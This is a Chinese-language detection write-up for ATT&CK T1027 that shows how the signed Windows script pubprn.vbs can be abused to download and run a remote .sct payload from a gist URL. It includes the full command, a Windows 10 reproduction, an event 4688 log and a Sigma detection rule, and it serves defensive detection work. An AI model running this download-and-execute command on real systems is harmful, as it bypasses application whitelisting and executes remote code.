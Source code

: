 # T1027-win-使用pubprn.vbs下载执行payload(白名单)

## 来自ATT&CK的描述

许多软件开发相关的实用程序可用于执行各种形式的代码用于协助开发、调试和逆向工程。这些实用程序通常可以使用合法证书进行签名。签名后，它们就可以在系统上执行。通过可信的进程代理执行恶意代码，从而有效地绕过应用白名单防御解决方案。

## 测试案例

在Windows 7以上版本存在一个名为pubprn.vbs的微软已签名WSH脚本，可以利用来解析.sct脚本：

```yml
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

win10，自行开启审核策略

```yml
Microsoft Windows [版本 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\ma jack>"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

在安装360终端管理软件环境下，会被拦截提示。

## 测试留痕

```log
事件ID： 4688
EventData 

SubjectUserSid S-1-5-21-3061901842-4133171524-864420058-1000 
SubjectUserName ma jack 
SubjectDomainName DESKTOP-NJ1U3F5 
SubjectLogonId 0x3e2c5 
NewProcessId 0x1378 
NewProcessName C:\Windows\System32\wscript.exe 
TokenElevationType %%1938 
ProcessId 0x14d0 
CommandLine "C:\Windows\System32\WScript.exe" "C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct 
TargetUserSid S-1-0-0 
TargetUserName - 
TargetDomainName - 
TargetLogonId 0x0 
ParentProcessName C:\Windows\System32\cmd.exe 
MandatoryLabel S-1-16-8192 

```

## 检测规则/思路

### sigma规则

```yml
title: 使用pubprn.vbs下载执行payload
description: 在Windows 7以上版本存在一个名为pubprn.vbs的微软已签名WSH脚本，可以利用来解析.sct脚本
status: experimental
tags:
    - attack.defense_evasion
    - attack.t1027
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        NewProcessName: "C:\Windows\System32\wscript.exe"
        CommandLine: "*pubprn.vbs"
    condition: selection
falsepositives:
    - Unkown
level: high
```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1027

<https://attack.mitre.org/techniques/T1027/>

渗透测试笔记

<https://github.com/M1k0er/pentest-notes>
